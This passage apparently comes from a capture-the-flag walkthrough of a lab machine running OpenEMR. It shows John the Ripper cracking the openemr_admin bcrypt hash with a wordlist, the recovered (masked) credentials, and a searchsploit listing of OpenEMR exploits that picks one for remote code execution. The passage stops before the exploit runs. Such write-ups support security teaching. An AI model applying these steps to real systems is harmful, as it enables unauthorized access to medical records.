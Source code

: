 ## Crack openemr_admin's password

The table contains the `openemr_admin`'s password hash. Save the hash and crack it with John:

~~~
kali@kali:/data/Cache/files$ /data/src/john/run/john openemr_admin.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-09-17 08:55) 1.724g/s 1458p/s 1458c/s 1458C/s tristan..princesita
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

We now have valid credentials: `openemr_admin:xxxxxx`

## RCE

Using `searchsloit` reveals several vulnerabilities, but 1 of them will be interesting for us (ID `48515`).

~~~
kali@kali:/data/Cache/files$ searchsploit openemr
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
OpenEMR - 'site' Cross-Site Scripting                                               | php/webapps/38328.txt
OpenEMR - Arbitrary '.PHP' File Upload (Metasploit)                                 | php/remote/24529.rb
OpenEMR 2.8.1 - 'fileroot' Remote File Inclusion                                    | php/webapps/1886.txt
OpenEMR 2.8.1 - 'srcdir' Multiple Remote File Inclusions                            | php/webapps/2727.txt
OpenEMR 2.8.2 - 'Import_XML.php' Remote File Inclusion                              | php/webapps/29556.txt
OpenEMR 2.8.2 - 'Login_Frame.php' Cross-Site Scripting                              | php/webapps/29557.txt
OpenEMR 3.2.0 - SQL Injection / Cross-Site Scripting                                | php/webapps/15836.txt
OpenEMR 4 - Multiple Vulnerabilities                                                | php/webapps/18274.txt
OpenEMR 4.0 - Multiple Cross-Site Scripting Vulnerabilities                         | php/webapps/36034.txt
OpenEMR 4.0.0 - Multiple Vulnerabilities                                            | php/webapps/17118.txt
OpenEMR 4.1 - '/contrib/acog/print_form.php?formname' Traversal Local File Inclusio | php/webapps/36650.txt
OpenEMR 4.1 - '/Interface/fax/fax_dispatch.php?File' 'exec()' Call Arbitrary Shell  | php/webapps/36651.txt
OpenEMR 4.1 - '/Interface/patient_file/encounter/load_form.php?formname' Traversal  | php/webapps/36649.txt
OpenEMR 4.1 - '/Interface/patient_file/encounter/trend_form.php?formname' Traversal | php/webapps/36648.txt
OpenEMR 4.1 - 'note' HTML Injection                                                 | php/webapps/38654.txt
OpenEMR 4.1.1 - 'ofc_upload_image.php' Arbitrary File Upload                        | php/webapps/24492.php
~~~